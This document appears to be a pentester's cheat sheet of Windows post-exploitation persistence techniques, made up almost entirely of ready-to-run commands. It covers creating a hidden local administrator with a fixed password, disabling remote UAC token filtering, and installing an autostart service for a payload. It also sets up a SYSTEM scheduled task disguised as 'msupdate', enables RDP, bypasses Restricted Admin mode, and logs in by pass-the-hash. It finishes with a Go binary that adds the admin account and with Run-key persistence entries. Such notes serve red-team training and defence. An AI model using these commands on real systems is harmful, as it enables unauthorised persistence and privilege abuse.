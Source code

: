 # Windows

### Create new user

```powershell
net user mylocaladmin p@ssw0rd! /add /expires:never
net localgroup administrators mylocaladmin /add
```

Create user **mylocaladmin** with password **p@ssw0rd!** and add it to **administrators** group.



Change registry settings to allow local administrator accounts to perform administrative tasks remotely without restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```



### Create service

_Make a service, with autostart. Before need prepare special payload, that is a service binary._&#x20;

```
sc.exe create "monitexp" binPath= "C:\PathToServiceBinary" type= own start= auto
```

_Then start service_

```
Start-Service -Name "monitexp"
```

### Background jobs

```powershell
$job = Start-Job { c:/ProgramData/file.exe -args }
```

_Receive output_

```powershell
Receive-Job -Job $job -Keep
```

### Scheduled task

#### schtasks.exe

_Task create:_

```
schtasks /create /tn msupdate /tr "powershell -w h calc.exe" /sc MINUTE /mo 5 /f /ru SYSTEM
```

Task info

```
schtasks /query /tn msupdate /v /fo list
```

Force the task to star&#x74;_:_

```
schtasks /run /tn msupdate /i
```

_Delete task:_

```
schtasks /delete /tn msupdate /f
```



### Provide RDP access

#### Turn on RDP

```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Bypass Restricted Admin Mode&#x20;

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Connect

```powershell
xfreerdp /v:172.16.222.254 /u:username /pth:<NT_HASH> /dynamic-resolution +clipboard
```

### Go based binary to create local admin

```go
package main

import (
	"fmt"
	"log"
	"os/exec"
)

func main() {
	addUserCmd := "net user mylocaladmin p@ssw0rd! /add /expires:never"
	addToAdminGroupCmd := "net localgroup administrators mylocaladmin /add"

	err := executeCommand(addUserCmd)
	if err != nil {
		log.Fatal(err)
	}

	err = executeCommand(addToAdminGroupCmd)
	if err != nil {
		log.Fatal(err)
	}

}

func executeCommand(command string) error {
	cmd := exec.Command("cmd", "/C", command)

	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Errorf("err: %s\noutput : %s", err, output)
	}
	return nil
}

```

### Registry run keys

**HKCU**

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
```

**HKLM**

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
```

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

DIfference: `HKCU` → for current user only, `HKLM` → for all
